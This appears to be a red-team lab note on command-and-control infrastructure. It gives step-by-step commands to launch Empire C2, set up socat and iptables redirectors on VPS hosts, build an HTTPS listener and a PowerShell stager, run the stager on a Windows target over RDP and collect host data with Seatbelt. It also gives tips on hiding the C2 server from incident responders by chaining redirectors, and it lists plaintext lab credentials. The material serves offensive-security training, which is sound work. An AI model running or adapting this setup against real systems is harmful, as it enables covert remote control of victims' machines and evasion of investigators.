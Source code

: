 #### Tags: [[12 - Command and Control (TA0011)]]
## Objectives

    Understand the use of redirectors in attack infrastructure
    Create a listener on Empire that will expect redirector routing
    Create stager payloads that will route through the redirector
    Execute the stager payload in the lab environment

## Overview
This lab will focus on the:
- Use of redirectors to create a buffer between the C2 server (Blue Space) and the Target network (Red Space). 
- We will create an account on a Virtual Private Server (VPS) vendor and 
- Provision two VPS's to redirect traffic through.
- Thus, we will leverage Empire C2 stager (Red Space) to perform routing via redirector (Grey Space) to reach the Empire listener (Blue Space).

![[Pasted image 20240310163005.png]]
#### Redirector Communication Pattern
1. C2 Listener will use Redirector IP Address
2. The VPS running Redirector will leverage socat to redirect traffic from Stager (incoming) to Listener (outgoing)
3. C2 Stager will callback to Redirector IP Address
### 1. Launch [[Empire C2#Create an Empire listener|Empire C2 & Setup Communication]]

1. Launch Empire by starting the server 
	1. `sudo ./ps-empire server`
2. Start the StarKiller from the terminal.
	1. `./starkiller-1.9.0.AppImage --no-sandbox`
3. Log into Starkiller UI
	1. `Url: https://localhost:1337 | Username: empireadmin | Password: password123
4. Create certificates for HTTPS, this is optional as Empire normally already has bundled default certificates, but let's do it for good measure.
	1. `cd /opt/Empire/setup/ && ./cert.sh
### 2. Provision VPS
```markdown
# Spawn VPS for redirection:
4-8-15.vpspawn.com with credentials root : 0wnTHEnet!
16-23-42.vpspawn.com with credentials root : ONth3NET?
```
![[Pasted image 20240310165118.png]]

### 3. socat Redirection
1. SSH to your new VPS as root and using one of the passwords provided by vpspawn.com. 
	1. `ssh root@4-8-15.vpspawn.com`
2. Take note of the eth0 adapter's IP, you will need this later.
	1. `ip a`
3. Then create a screen session and run socat using the syntax below:
	1. `screen -S socat443`
	2. `socat TCP4-LISTEN:443,fork TCP4:<C2-IP-Address or Hostname>:443`

Note: The C2 IP addr or hostname can be the value of your tun0 adapter.

Note: The use of screen is a safety mechanism because we can get back to shell that has our socat process if we get disconnected from our redirector.
- To detach from the screen session type` Ctrl+a then d`. 
- To view screen sessions run `screen -ls` 
- To reattach to a detached screen run `screen -r <screen session name>.`

### 4. Create Listener
Create an Empire listener with a Host set to a redirector address
- ###### Listener will have the IP address or hostname of the redirector, and not your tun0 adapter. 
- ###### Stager will have the Redirector IP / Host value will be used for communication, and not want your C2 server's address or hostname here.

Select http in the drop down menu. Then provide the following values:

    Name: interactive-https
    Host: https://10.130.7.5:443 <- This must be the ip address or hostname of the redirector
    Port: 443
    Bind IP: 0.0.0.0
    StagingKey: AddSomethingRandomTo32Characters
    CertPath: /opt/Empire/empire/server/data

Leave the rest as defaults and click the SUBMIT button in the upper right corner of the screen.

![[Pasted image 20240310173626.png]]
### 5. Create Stager

Select multi/launcher in the drop down menu. Then provide the following values:

    StarkillerName: interactive-https-pwsh
    Listener: interactive-https
    Language: powershell

Leave the rest as defaults and click the SUBMIT button in the upper right corner of the screen

![[Pasted image 20240310173648.png]]

### 6. Deliver Stager
- Execute the Stager to create an Agent in the target environment via RDP: 
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp

![[Pasted image 20240310174517.png]]
###### Note: In a real engagement you would avoid RDP and if you absolutely must, you should use a proxy for the connection.
- We are going to RDP to the target network, consider this a system you control and disregard communication path, OPSEC, and tradecraft on this system only. 

Open a command prompt by clicking the windows icon in the lower left and typing cmd.exe. Then right click in the command prompt. 
- You should see a lot of encoded text. Press Enter to spawn a new agent. The command prompt should close automatically. You may now exit your RDP session.
![[Pasted image 20240310174620.png]]
![[Pasted image 20240310174630.png]]
### 7. Agent Interaction

Click on the chain icon on the left navigation window to bring up the Agents dashboard. 
- You may now create tasks to explore the new system.

If you look at the VIEW tab of the agent you will see that the External IP is the IP of your redirector while the internal IP is the IP of the host.

Let's run Seatbelt from GhostPack which will allow us to get a lot of information about the user and host on this system. 
- Provide the following values on the INTERACT tab of the agent and click submit:

	    Execute Module: csharp/GhostPack/Seatbelt
	    DotNetVersion: Net35
	    Command: -group=user

![[Pasted image 20240310181957.png]]
#### Notes

Now all the C2 traffic is routed through a redirector in gray space. This creates one hop between your C2 server and the target network.
- If Incident Responders conduct network forensics, they would get the DNS or IP address of the temporary VPS instead of your C2 server.
- The Blue Team can ask the VPS provider for logs around the time of the incident through Law Enforcement channels or by filling out an Abuse report.
- With one hop that might be a concern, but redirectors can be chained together to make it more difficult to unravel the whole chain.
- If chaining redirectors, use different providers in different geographic areas.
## Conclusion

In this lab we created an HTTP listener that was configured with X.509 certificates to safeguard our C2 traffic. 
- We then generated a PowerShell stager and delivered it to the windows system in the target environment. 
- For the purposes of the lab, we used direct RDP access to execute our stager code. 
- In a real engagement other delivery methods like phishing would be necessary to get that initial access. 
- Lastly, we were assured that all the communication worked because the Agent was spawned and we could see that the traffic was directed to our C2 through the redirector.

---
##### BONUS - iptables
1. Try to establish redirection with iptables on the redirector (not your Slingshot Linux VM). First enable ipv4 forwarding with `sysctl net.ipv4.ip_forward=1` and then establish a prerouting rule.
2. Create iptables rules
```markdown
root@4-8-15:~# sysctl net.ipv4.ip_forward=1
root@4-8-15:~# iptables -I INPUT -p tcp -m tcp --dport 443 -j ACCEPT
root@4-8-15:~# iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination <C2-IP-Address or Hostname>:443
root@4-8-15:~# iptables -t nat -A POSTROUTING -j MASQUERADE
root@4-8-15:~# iptables -I FORWARD -j ACCEPT
root@4-8-15:~# iptables -P FORWARD ACCEPT
root@4-8-15:~# nano /etc/ssh/sshd_config
root@4-8-15:~# service sshd restart or systemctl restart sshd

```